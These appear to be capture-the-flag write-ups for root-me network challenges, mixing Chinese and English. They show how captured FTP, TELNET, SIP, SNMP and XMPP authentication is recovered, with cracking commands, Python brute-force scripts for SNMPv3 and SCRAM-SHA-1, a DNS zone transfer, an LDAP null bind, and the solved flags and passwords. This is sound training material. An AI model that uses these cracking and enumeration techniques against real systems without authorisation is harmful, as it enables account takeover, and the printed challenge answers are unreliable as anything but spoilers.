



## 1.3 网络

> 本节选用root-me练习，通过writeup学习一些和安全强相关的网络协议。

### FTP authentication

题目：https://www.root-me.org/en/Challenges/Network/FTP-authentication

FTP明文传输密码，可以打开wireshark看到



### TELNET authentication

题目：https://www.root-me.org/en/Challenges/Network/TELNET-authentication

TELNET明文传输密码，可以打开wireshark, Follow TCP Stream看到



### CISCO password

题目：https://www.root-me.org/en/Challenges/Network/CISCO-password

The Cisco config file contains all in all 5 passwords - 4 ’encrypted’ using reversible scheme (you can identify them by password 7 ) and 1 ENABLE password done cryptographically strong and which cannot be reversed, only guessed. To help with guessing what this ENABLE password can be I first reversed the other 4 passwords by just going to the website www.ifm.net.nz/cookbooks/passwordcracker.html whcih got me: 
- hub:6sK0_hub 
- admin:6sK0_admin 
- guest:6sK0_guest 
- console:6sK0_console

The pattern is clear: 6sK0_ i.e. it should be 6sK0_enable
To verify:

```
openssl passwd -1 -salt p8Y6  -table 6sK0_enable
6sK0_enable        $1$p8Y6$MCdRLBzuGlfOs9S.hXOp0.
```

### DNS zone transfert

题目：https://www.root-me.org/en/Challenges/Network/DNS-zone-transfert

```
dig @212.129.38.224 -p 54011 axfr ch11.challenge01.root-me.org

; <<>> DiG 9.9.4-RedHat-9.9.4-38.el7_3.2 <<>> @212.129.38.224 -p 54011 axfr ch11.challenge01.root-me.org
; (1 server found)
;; global options: +cmd
ch11.challenge01.root-me.org. 604800 IN        SOA        ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
ch11.challenge01.root-me.org. 604800 IN        TXT        "DNS transfer secret key : CBkFRwfNMMtRjHY"
ch11.challenge01.root-me.org. 604800 IN        NS        ch11.challenge01.root-me.org.
ch11.challenge01.root-me.org. 604800 IN        A        127.0.0.1
challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
ch11.challenge01.root-me.org. 604800 IN        SOA        ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
;; Query time: 347 msec
;; SERVER: 212.129.38.224#54011(212.129.38.224)
;; WHEN: Mon May 08 10:08:02 ICT 2017
;; XFR size: 6 records (messages 1, bytes 235)
```

or `dig @212.129.38.224 -p 54011 txt ch11.challenge01.root-me.org`

### LDAP null bind

题目：https://www.root-me.org/en/Challenges/Network/LDAP-null-bind

The Challenge’s title reveals we’ll be using LDAP Null Bind to solve it.
The information also reveals that we might be looking for someone for the anonymous OU.

On a Unix system, use `ldapsearch` to perform a query against the LDAP server.

Using the following command, we’ll retrieve the info we need:

- **-x** = Simple authentication 
- **-b** = base dn for search 
- **-H** = LDAP Uniform Resource Identifier(s) You could also use -h and -p for this

```
ldapsearch -x -b "ou=anonymous,dc=challenge01,dc=root-me,dc=org" -H "ldap://challenge01.root-me.org:54013"
```

The result of this command is:

```
# extended LDIF
#
# LDAPv3
# base <ou=anonymous,dc=challenge01,dc=root-me,dc=org> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# anonymous, challenge01.root-me.org
dn: ou=anonymous,dc=challenge01,dc=root-me,dc=org
objectClass: organizationalUnit
ou: anonymous

# sabu, anonymous, challenge01.root-me.org
dn: uid=sabu,ou=anonymous,dc=challenge01,dc=root-me,dc=org
objectClass: inetOrgPerson
objectClass: shadowAccount
uid: sabu
sn: sabu
cn: sabu
givenName: sabu
mail: sabu@anonops.org

# search result
search: 2
result: 0 Success

# numResponses: 3
# numEntries: 2
```
As such revealing the email address we’re looking for: `sabu@anonops.org`

### SIP authentication

题目：https://www.root-me.org/en/Challenges/Network/SIP-authentication-103

The given file is in sipdump format. We can use sipcrack utility to crack the password.

```
sipcrack -w darkc0de.lst ch4.txt
```

gives us

```bash
SIPcrack 0.2  ( MaJoMu | www.codito.de ) 
----------------------------------------

* Found Accounts:

Num        Server                Client                User        Hash|Password

1        172.25.105.3        172.25.105.40        555        1234
2        172.25.105.3        172.25.105.40        555        aa533f6efa2b2abac675c1ee6cbde327
3        172.25.105.3        172.25.105.40        555        0b306e9db1f819dd824acf3227b60e07

* Select which entry to crack (1 - 3): 2

* Generating static MD5 hash... e04457c22925d15d8508d55193eae618
* Loaded wordlist: 'Documents/my_wordlists/darkc0de.lst'
* Starting bruteforce against user '555' (MD5: 'aa533f6efa2b2abac675c1ee6cbde327')
* Tried 42378 passwords in 0 seconds

* Found password: '1234'
* Updating dump file 'Documents/root-me/Network/ch4.txt'... done
```

### Global System Traffic for Mobile communication

题目：https://www.root-me.org/en/Challenges/Network/Global-System-Traffic-for-Mobile-communication-61

Download the pcap file and open it with Wireshark.

Look at the file.
You will notice that one frame is bigger than the others.

Get the data as a Hex Stream from Wireshark.

Regarding the hints on the title, you understand that you are looking for an Sms message where you will find the password.

When you look on the RFC or on the Internet about Sms encoding, you understand that it is a 7-bit encoding and that Sms could be decoded as a PDU (Packet Data Unit).
So look on the internet for a Sms-PDU decoder (this one works : https://www.diafaan.com/sms-tutorials/gsm-modem-tutorial/online-sms-pdu-decoder/).
Paste the Data Hex Stream.

And boom, you got the message.



### SNMP Authentication

题目：https://www.root-me.org/en/Challenges/Network/SNMP-Authentification

暴力破解
```python
#!/usr/bin/python
import hashlib

msg = "3081800201033011020420dd06a7020300ffe30401050201030431302f041180001f8880e9bd0c1d12667a5100000000020105020120040475736572040cb92621f4a93d1bf9738cd5bd04003035041180001f8880e9bd0c1d12667a51000000000400a11e02046b4c5ac20201000201003010300e060a2b06010201041e0105010500"
target = "b92621f4a93d1bf9738cd5bd"
msg_2 = msg.replace(target, "000000000000000000000000")
engineid = "80001f8880e9bd0c1d12667a5100000000".decode('hex')

def caculate_md5(password):
    passwordlen =  len(password)
    if passwordlen == 0:
	    return ""
    password_buf = ""
    count = 0
    password_index = 0
    while count < 1048576:
	    for i in range(64):
		    password_buf += password[password_index % passwordlen]
		    password_index += 1
	    count += 64
	
    h = hashlib.new('md5')
    h.update(password_buf)
    key = h.hexdigest().decode('hex')
    strpass = key + engineid + key
    h = hashlib.new('md5')
    h.update(strpass)
    key = h.hexdigest()
    entend_key = key + '00' * 48
    IPAD = '36' * 64
    k1 = "%0128x" % (int(entend_key, 16) ^ int(IPAD, 16))
    OPAD = '5c' * 64
    k2 = "%0128x" % (int(entend_key, 16) ^ int(OPAD, 16))
    input = k1 + msg_2
    h = hashlib.new('md5')
    h.update(input.decode('hex'))
    input = h.hexdigest()
    input = k2 + input
    h = hashlib.new('md5')
    h.update(input.decode('hex'))
    input = h.hexdigest()
    return input[:12*2]
	
with open('dict.txt') as fp:
    count_loop = 0
    for line in fp:
	    if count_loop % 1000 == 0:
		    print count_loop
	    password = line[:-1]
	    ret = caculate_md5(password)
	    count_loop += 1
	    if target == ret:
		    print password
		    break
```

### XMPP authentication

题目：https://www.root-me.org/en/Challenges/Network/XMPP-authentication-197

有两个序列，第二个返回成功。取这个数据
```bash
>>> base64.b64decode('biwsbj1rb21hX3Rlc3Qscj1oeWRyYQ==')
'n,,n=koma_test,r=hydra'
>>> base64.b64decode('cj1oeWRyYUZlM0Exc2NMN0MwanRLc20ra2NnOTZNV2c3NjlGdVJ1LHM9a002bFRqam5aVzRGOFdMYm95YWdjQT09LGk9NDA5Ng==')
'r=hydraFe3A1scL7C0jtKsm+kcg96MWg769FuRu,s=kM6lTjjnZW4F8WLboyagcA==,i=4096'
>>> base64.b64decode('dj1ZUWxlZ3ZiRXdEbzJvNjBZaUsyaUFrWXlQS0U9')
'v=YQlegvbEwDo2o60YiK2iAkYyPKE='
```
This is the pseudo code of the SCRAM-SHA-1 algorithm:
```
clientFinalMessageBare = "c=biws,r=" .. serverNonce
saltedPassword = PBKDF2-SHA-1(normalizedPassword, salt, i)
clientKey = HMAC-SHA-1(saltedPassword, "Client Key")
storedKey = SHA-1(clientKey)
authMessage = initialMessage .. "," .. serverFirstMessage .. "," .. clientFinalMessageBare
clientSignature = HMAC-SHA-1(storedKey, authMessage)
clientProof = clientKey XOR clientSignature
serverKey = HMAC-SHA-1(saltedPassword, "Server Key")
serverSignature = HMAC-SHA-1(serverKey, authMessage)
clientFinalMessage = clientFinalMessageBare .. ",p=" .. base64(clientProof)
```
暴力破解
```python
import base64
import hashlib
import hmac
import itertools

charset = "_abcdefghijklmnopqrstuvwxyz"

initial_message = "n=koma_test,r=hydra"
server_first_message = "r=hydraFe3A1scL7C0jtKsm+kcg96MWg769FuRu,s=kM6lTjjnZW4F8WLboyagcA==,i=4096"
server_final_message_compare = "v=YQlegvbEwDo2o60YiK2iAkYyPKE="
r = server_first_message[2:server_first_message.find('s=')-1]
s = server_first_message[server_first_message.find('s=')+2:server_first_message.find('i=')-1]
i = server_first_message[server_first_message.find('i=')+2:]

for passlen in range(1,3):
	print "test passlen %d" % passlen
	for k in itertools.permutations(charset, passlen):
		password = "koma" + "".join(k)
		salt = base64.b64decode(s)
		client_final_message_bare = 'c=biws,r=' + r
		salt_password = hashlib.pbkdf2_hmac('sha1', password, salt, int(i))
		auth_message = initial_message + ',' + server_first_message + ',' + client_final_message_bare
		server_key = hmac.new(salt_password, 'Server Key', hashlib.sha1).digest()
		server_signature = hmac.new(server_key, auth_message, hashlib.sha1).digest()
		server_final_message = 'v=' + base64.b64encode(server_signature)
		if server_final_message == server_final_message_compare:
			print "found the result"
			print password
			h = hashlib.new('sha1')
			h.update(password)
			print h.hexdigest()
			exit(-1)
```